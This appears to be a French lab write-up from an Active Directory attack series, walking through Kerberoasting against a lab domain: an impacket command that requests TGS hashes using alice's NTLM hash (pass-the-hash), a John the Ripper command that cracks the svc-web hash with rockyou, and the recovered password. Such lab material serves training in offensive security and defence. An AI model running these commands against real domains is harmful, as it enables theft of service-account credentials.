


## Attaque

### Contexte

Tout utilisateur de domaine peut demander un TGS pour n'importe quel service
ayant un SPN configuré. Le TGS est chiffré avec le hash du compte de service.
L'attaquant récupère ce hash et le cracke offline sans générer de bruit sur le réseau.

> Dans ce lab Kali partage le réseau avec le DC, ce qui permet de lancer l'attaque directement. En conditions réelles elle serait exécutée depuis la machine compromise via Rubeus, ou depuis le C2 via un tunnel SOCKS.

### Technique MITRE

| ID | Technique | Tactique |
|----|-----------|----------|
| T1558.003 | Kerberoasting | Credential Access |

### Prérequis

| Élément | Valeur |
|---------|--------|
| Accès | Hash NTLM d'alice (scénario 04) |
| Cible | svc-web - SPN HTTP/svc-web.lab.local |
| DC | 192.168.10.100 |

### Exécution

#### 1. Lister les comptes avec SPN et récupérer les hashes TGS

```bash
impacket-GetUserSPNs lab.local/alice -dc-ip 192.168.10.100 -request -hashes :d081b424d6a023f75110c122c25fcf22
```

| Option                                      | Signification                                 |
| ------------------------------------------- | --------------------------------------------- |
| `lab.local/alice`                           | Compte de domaine utilisé pour s'authentifier |
| `-hashes :d081b424d6a023f75110c122c25fcf22` | Hash NTLM d'alice récupéré au scénario 04     |
| `-request`                                  | Demande et retourne les hashes TGS            |




#### 2. Cracker le hash offline

```bash
john /tmp/svc-web_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs
```

| Option             | Signification                |
| ------------------ | ---------------------------- |
| `--format=krb5tgs` | Format TGS Kerberos etype 23 |



### Résultat

| Compte | Mot de passe |
|--------|-------------|
| svc-web | Password123!! |

Hash TGS cracké offline. Mot de passe de svc-web obtenu sans interaction
supplémentaire avec le DC après la demande initiale.
